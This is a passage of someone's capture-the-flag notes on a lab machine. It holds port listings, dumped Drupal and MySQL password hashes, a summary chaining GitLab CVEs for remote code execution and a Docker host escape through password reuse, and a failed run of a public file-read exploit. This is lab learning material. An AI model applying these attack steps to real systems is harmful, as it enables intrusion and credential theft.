UBUNTU_CODENAME=focal
```

### Networking

```
root@ready:~/ready-channel# netstat -tlpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      1059/mysqld         
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      755/systemd-resolve 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      993/sshd: /usr/sbin 
tcp6       0      0 :::22                   :::*                    LISTEN      993/sshd: /usr/sbin 
tcp6       0      0 :::5080                 :::*                    LISTEN      1403/docker-proxy
```

### Database

Drupal:

```
MariaDB [drupal]> select name,pass from users;
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| admin | $S$DxQlxQHJXHhvkIFGEn2U7Srl4qdSe6y3QPypkjclI3S.2EgpLyar |
+-------+---------------------------------------------------------+
2 rows in set (0.001 sec)

MariaDB [drupal]> 
```

Mysql:

```
MariaDB [mysql]> select Host,User,Password from user;
+-----------+------------+-------------------------------------------+
| Host      | User       | Password                                  |
+-----------+------------+-------------------------------------------+
| localhost | root       |                                           |
| localhost | drupaluser | *8886FB0559475EAFCC0B6956B21B052059333393 |
+-----------+------------+-------------------------------------------+
2 rows in set (0.001 sec)

MariaDB [mysql]>
```


# 90 - Summary

Foothold: 

- Chain GitLab CVE-2018-19571 with CVE-2018-19585 to gain a remote code execution on GitLab container

Privilege Escalation:

- Find a password in `/opt/backup/gitlab.rb`
- Reuse the password on container root account.
- Mount the root directory of the host to container.

# 99 - Trial-error/Try list

> What to put here:
>
> - Options you want to try (upper=highest priority, lower=try later)
> - Track things you have tried but failed.
> - Tips/Trick you learned during completing the box.
> - Take a rest if you keep putting/looking your note in here for more than 45 minutes.

## GitLab 12.9.0 LFI/LFI2RCE (fail)

Conditions:

1. LFI: GitLab EE/CE 8.5 - 12.9.0
2. LFI2RCE: 'experimentation_subject_id' cookie

Condition #1 is fulfilled, target version 11.4.7, but condition #2 is not.


Exploit PoC for LFI: https://github.com/thewhiteh4t/cve-2020-10977, but it didn't work.

```
$ ./cve_2020_10977.py http://10.10.10.220:5080/ iamf iamfiamf
----------------------------------
--- CVE-2020-10977 ---------------
--- GitLab Arbitrary File Read ---
--- 12.9.0 & Below ---------------
----------------------------------

[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]

[+] Target        : http://10.10.10.220:5080
[+] Username      : iamf
[+] Password      : iamfiamf
[+] Project Names : ProjectOne, ProjectTwo

[!] Trying to Login...
[+] Login Successful!
[!] Creating ProjectOne...
[+] ProjectOne Created Successfully!
[!] Creating ProjectTwo...
[+] ProjectTwo Created Successfully!
[>] Absolute Path to File : /etc/passwd
[!] Creating an Issue...
[+] Issue Created Successfully!
[!] Moving Issue...
Traceback (most recent call last):
  File "./cve_2020_10977.py", line 268, in <module>
    move_issue(project_names[0], project_names[1], filename)
  File "./cve_2020_10977.py", line 189, in move_issue
    project_id = body.attrs['data-project-id']
KeyError: 'data-project-id'
```


## Enumeration for privesc

Try

- ~~Use the passwords~~ => OK
- ~~Check container capabilities~~ => OK
- ~~Find password in files~~
  - ~~other dir~~ => OK, found: `/opt/backup/gitlab.rb`, and `/root_pass`.
  - ~~home dir~~ => NOPE